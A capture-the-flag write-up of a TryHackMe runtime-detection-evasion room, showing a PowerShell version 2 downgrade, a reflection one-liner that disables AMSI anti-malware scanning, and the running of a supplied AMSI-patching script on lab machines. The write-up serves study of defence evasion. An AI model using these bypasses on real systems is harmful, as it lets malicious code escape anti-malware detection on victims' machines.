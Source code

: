 # Room Information

![]()

Room link: https://tryhackme.com/room/runtimedetectionevasion

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 08/15/2023

# Room Tasks

## PowerShell Downgrade

1. Started up this task's machine

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt0.png)

2. `PowerShell -Version <VERSION NUMBER>` from the Windows machine to launch the specified version of PowerShell, for which we'll specify the version 2.0 of PowerShell since this version will allow us to bypass security features that weren't implemented in this version yet, which ended up creating a text file on the machine's desktop containing this task's flag

```PowerShell
C:\Users\THM-Attacker>PowerShell -Version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt2.png)


**TASK COMPLETED!**

## PowerShell Reflection

1. Started up this task's machine
![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt1.png)

2. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)` from the Windows machine to use Reflection to modify and bypass the AMSI (Anti-Malware Scan Interface) utility
```PowerShell
PS C:\Users\THM-Attacker> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
* `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')`
* `.GetField('amsiInitFailed','NonPublic,Static')`
* `.SetValue($null,$true)`

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt3.png)

## Patching AMSI

1. Started this task's machine
![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt1.png)

2. `.\<EXPLOIT>` from the Windows machine to execute the provided PowerShell executable, which ended up creating a text file on the machine's desktop containing this task's flag
```PowerShell
PS C:\Users\THM-Attacker> .\Desktop\bypass.ps1
True
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt3.png)


**TASK COMPLETED!**
